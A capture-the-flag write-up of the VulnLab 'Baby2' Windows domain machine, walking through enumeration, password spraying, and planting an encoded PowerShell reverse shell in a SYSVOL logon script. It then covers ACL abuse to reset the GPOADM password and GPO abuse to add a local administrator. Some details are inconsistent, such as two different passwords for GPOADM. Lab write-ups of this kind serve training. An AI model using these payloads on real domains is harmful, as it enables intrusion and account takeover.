

# Baby2

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Baby2** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned-102.txt -p 593,139,49671,57836,57804,445,636,389,57824,57811,3268 --min-rate=1000 10.10.92.125
```



Now let’s enumerate the domain users

```bash
nxc smb baby2.vl -u 'guest' -p '' --rid-brute 10000
```


Now let’s go and extract the users

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```


Now let’s go and enumerate the shares

```bash
nxc smb baby2.vl -u 'guest' -p '' --shares
```


> As we see we got apps share and homes share that we have read write on it
> 

Now let’s connect to the NETLOGON share

```bash
smbclient \\\\baby2.vl\\NETLOGON -U "baby2.vl\guest"
```


notice that we found a visual basic script

so let’s download it

```bash
get login.vbs
```


now let’s see the script content

```bash
caat login.vbs
```


> Notice that we have a automation script that abuse the apps share
> 

Now let’s try password spraying

```bash
nxc smb baby2.vl -u users.txt -p users.txt --continue-on-success
```


> Notice that we have a two valid users
username: Carl.Moore
password: Carl.Moore
username: library
password: library
> 

Now let’s enumerate the shares again with the user carl

```bash
nxc smb baby2.vl -u 'Carl.Moore' -p 'Carl.Moore' --shares
```


> As we see we got a read write on the apps share
> 

Now let’s connect to the SYSVOL share

```bash
smbclient \\\\baby2.vl\\SYSVOL -U "baby2.vl\Carl.Moore"
```


notice that we found the login.vbs script so let’s modify it to gain a reverse shell

```bash
CreateObject("WScript.Shell").Run "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOAAuADUALgAyADMAMwAiACwAMQAzADMANwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=", 0, True
```


Now let’s upload it

```bash
put login.vbs
```


now let’s open a listener

```bash
nc -lvnp 1337
```


now let’s see if we got a shell


and we did it!

Now let’s get a bloodhound

```bash
bloodhound-python -ns 10.10.92.125 -d baby2.vl -u Carl.Moore -p Carl.Moore -c all --zip
```


now let’s open the bloodhound and see if there is any interesting permissions we have


> Notice that the gpoadm have a write dacl and write owner on the GPOABM user
> 

Now let’s go and take the ownership of the GPOADM user

```bash
Add-DomainObjectAcl -TargetIdentity "GPOADM" -PrincipalIdentity legacy -Domain baby2.vl -Rights All -Verbose
```


Now let’s go and reset the user password

```bash
Set-DomainUserPassword -Identity "GPOADM" -AccountPassword (ConvertTo-SecureString -AsPlainText "remo123$" -Force)
```


Now let’s validate the password reset

```bash
nxc smb baby2.vl -u 'GPOADM' -p 'remo123$'
```


And we reset the password so let’s see what the user GPOADM can do


> Notice that we have GenericAll on the domain policy so let’s abuse it
> 

Now we will use pyGPOAbuse to add a local user as administrator

```bash
python3 pygpoabuse.py baby2.vl/gpoadm:'remoremo' -dc-ip 10.10.92.125 -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9"
```


now let’s validate if it created the local user

```bash
net localgroup administrators
```


and as we see the user john is added to local admins!

Now let’s try to login via winrm

```bash
evil-winrm -i baby2.vl -u john -p 'H4x00r123..'
```


now let’s go to the administrator desktop and see the flag

```bash
cd c:\users\administrator\desktop
```


Amazing we got the root flag 🥳


That’s it for the **Baby2** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX